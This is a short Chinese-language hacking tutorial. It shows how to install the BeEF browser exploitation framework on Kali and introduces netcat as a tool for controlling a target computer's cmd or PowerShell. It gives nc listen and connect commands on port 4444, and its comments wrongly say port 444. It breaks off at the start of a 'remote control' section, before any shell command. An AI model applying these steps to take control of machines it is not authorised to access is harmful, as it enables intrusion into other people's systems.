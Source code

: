 然后让它自己更新一下：

```
apt-get update   #更新
```



### **安装beef命令**

```
apt-get install beef-xss  #2019版本以后（老版本有）
```





## nc（瑞士军刀）

黑客的最终目标是控制目标电脑的cmd/powershell

黑客的最终目标是控制目标电脑的cmd/powershell

微软觉得cmd权限和可以做的事太少了就弄了一个powershell



**nc（瑞士军刀）**（Windows和linux都可用的一个软件，用于控制目标电脑的cmd/powershell）
开源

**netcat**



### nc的安装：

kali自带，输入nc即可

Windows需要下载，解压后在当前目录下打开命令行，输入nc即可



### nc的使用：

#### 1 **普通发送文字--互相通信**：

服务端（被连接者）：

```
nc -l -p 4444 #监听444端口
```

客户端（连接者）：

```
nc -nv [服务端ip] 4444  #连接服务端的444端口
```



#### 2 **远程控制**：

**正向控制**：
目标：
